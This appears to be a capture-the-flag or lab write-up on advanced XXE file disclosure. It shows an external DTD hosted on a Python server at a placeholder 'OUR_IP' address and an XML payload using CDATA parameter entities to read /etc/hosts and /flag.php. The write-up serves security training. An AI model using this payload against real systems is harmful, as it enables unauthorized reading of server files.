 # Advanced File Disclosure

#### Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').



**Step 1** - Get the XML data

* Fill the form click on **Send Message**.

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Capture the POST Request and send it with Repeater

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Like the last exercise, we can see the value of the tag `email`  being reflected on the Response. This time to extract the data, we'll wrap the content of the external file reference with a `CDATA` .

Since XML prevents joining internal and external entities, we have to come around with a solution. To bypass this limitation we can use `XML Parameter Entities`. This is a special type of entity that starts with `%` character and con only be used with DTD.

To do that lets create a file in our working environment call it **xxe.dtd**. File content:

```bash
<!ENTITY joined "%begin;%file;%end;">
```

Then in the same directory we start a python server:

```bash
python3 -m http.server 8000
```

Lets add our XML code and try to read a common file like the **etc/hosts**:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> 
  <!ENTITY % file SYSTEM "file:///etc/hosts"> 
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> 
  %xxe;
]>
```

Make sure to add your machine IP, and add the **\&joined,** reference to the email tags.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

As we can see, we retrieve the content of the **/etc/hosts** and we even got the logs on the attack machine.

Now, if you struggle to find the flag.php file, maybe it's because you were looking at the `var/www/html` directory. But the file is actually located at the root, so we have to reference it like this `file:///flag.php`

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

And if we send the POST Request we are able to read the **flag.php** file and retrieve the flag!

